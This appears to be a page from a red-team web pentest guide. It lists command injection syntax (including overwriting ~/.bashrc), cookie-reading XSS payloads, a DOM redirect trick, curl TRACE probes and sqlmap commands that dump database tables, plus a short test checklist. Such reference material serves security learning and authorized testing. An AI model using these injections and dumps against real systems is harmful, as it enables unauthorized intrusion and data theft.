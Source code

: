 # Red Team

## Table of Contents
1. [Information Gathering](https://github.com/p-arrow/Red-Blue-Guide/blob/main/3_Exploitation/Web%20Application.md#information-gathering)
2. [Exploitation](https://github.com/p-arrow/Red-Blue-Guide/blob/main/3_Exploitation/Web%20Application.md#exploitation)
3. [Pentest Checklist](https://github.com/p-arrow/Red-Blue-Guide/blob/main/3_Exploitation/Web%20Application.md#pentest-checklist)


## Information Gathering
- **[Networks/Web Application](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Networks/Web%20Application.md)**
- **[Reconnaissance/Active/Web Application](https://github.com/p-arrow/RedTeam-Guide/blob/main/1_Reconnaissance/Active/Web%20Application.md)**

<br />

## Exploitation

### 1) Command Injection

#### Command Injection into available input masks
- Sequential: `/bin/exploit ; malicious_code`
- Pipeline: `/bin/exploit | malicious_code` (use output of exploit as input for malicious_code)
- Substitution: `/bin/exploit 'malicious_code'` (output of malicious_code as arg to exploit)
- Substitution: `/bin/exploit $(malicious_code)` (output of malicious_code as arg to exploit)
- Redirection: `/bin/exploit > ~/.bashrc` (overwrite bashrc)

### 2) XSS
- [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)
- [3_Exploitation/XSS.md](https://github.com/p-arrow/Red-Blue-Guide/blob/main/3_Exploitation/XSS.md)

#### Quick & Dirty:
     - `<script>alert("XSS LEAK")</script>`
     - `<script>alert(document.cookie)</script>`

#### DOM Based URL Redirection
- Look for `https://example.com/#dashboard`
- The value after `#` is accessible by Javascript
- Use `window.location.hash`
- If URL Redirection is in place you can test if a redirection to an external site is possible
- Enter `https://example.com/#www.externalsite.com`
- Activate the redirection via Javascript
- `window.location = window.location.hash.substr(1)`: use substr() to remove the '#'
- Following mitigations exist:
   - A) URL Whitelisting: `https://example.com/redirect?externalPage=1` or `https://example.com/redirect?page=dashboard`
   - B) REGEX

#### Web Server with TRACE/TRACK enabled (XST)
- Details: [https://owasp.org/Cross_Site_Tracing](https://owasp.org/www-community/attacks/Cross_Site_Tracing)
- "XST could be used as a method to steal user’s cookies via XSS"
- "This is possible even if the cookie has the “HttpOnly” flag set or exposes the user’s Authorization header"
- `curl -X TRACE www.example.org`
- `curl -X TRACE -H "Cookie: name=value" www.example.org`

### 3) SQLi

#### sqlmap
```
--> HTTP POST request: (after interception) save request to file (Burpsuite)
--> sqlmap -r request -p password (-p = analyze Parameter from POST method)
--> sqlmap -r request -D [database] --tables
--> sqlmap -r request -D [database] -T [table] --dump
--> -p "Parameter" -u "url" --tables
--> -p "Parameter" -D [DBMS] -T [Table] --dump -u "url"
```

<br />

## Pentest Checklist
Vulnerability | Test Method
------------- | -----------
Insufficient Cache Controls | Observe headers on pages containing sensitive data
Username Enumeration | Login valid user/invalid password – then compare. Login invalid user/invalid password – then compare
Session Cookies Not Marked Secure | Observe response headers after authentication
